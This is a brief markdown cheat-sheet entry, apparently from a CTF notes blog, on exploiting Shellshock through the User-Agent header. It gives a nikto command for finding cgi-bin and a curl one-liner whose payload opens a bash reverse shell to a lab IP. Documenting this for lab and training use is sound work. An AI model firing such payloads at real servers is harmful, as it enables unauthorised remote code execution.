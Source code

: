 ```yaml
---
description: >-
  Shellshock
title: Shellshock              # Add title here
date: 2022-08-12 08:00:00 -0600                           # Change the date to match completion date
categories: [06 Exploitation, Shellshock]                     # Change Templates to Writeup
tags: [exploitation, rce, shellshock]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### User-Agent
First you need to find a cgi-bin directory, for this task the best tool is nikto:
```bash
nikto -h <IP>
```

Next with curl we can abuse of the legacy version of outdated bash which accepts some payloads:
```bash
curl -i -H "User-agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.1.250/1234 0>&1" http://10.0.30.121/cgi-bin/uptime
```
Examples:
[ECHO CTF legacy](https://echoctf.red/target/35)

### References
[cgi-bin Exploitation](https://antonyt.com/blog/2020-03-27/exploiting-cgi-scripts-with-shellshock)